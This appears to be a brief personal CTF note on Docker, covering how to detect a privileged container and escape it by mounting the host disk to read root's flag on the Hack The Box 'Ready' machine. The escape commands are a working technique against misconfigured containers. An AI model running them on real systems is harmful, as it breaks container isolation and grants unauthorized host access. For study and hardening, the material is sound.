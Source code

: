 # Docker
Docker is a tool for virtualise computer unlike [[VMWare]] the host and the container have the OS system. 


## exploit
## privleged container

It important not to run the container with \--privileged as it leaves the machines vulnerable to exploitation allowing a hacker to gain access to the host machine. 
privileged container check 
````bash
ip link add dummy0 type dummy
````
And if a success meaning we got a priv container
allowing us to mount dir 

How to escape a container in a CTF (Hackthebox ready)
let try esacape the container. 
````Bash
mkdir /tmp/test
mount /dev/sda2 /tmp/test
cat /tmp/test/root/root.txt
````

resource: 
https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1?gi=c1a107350323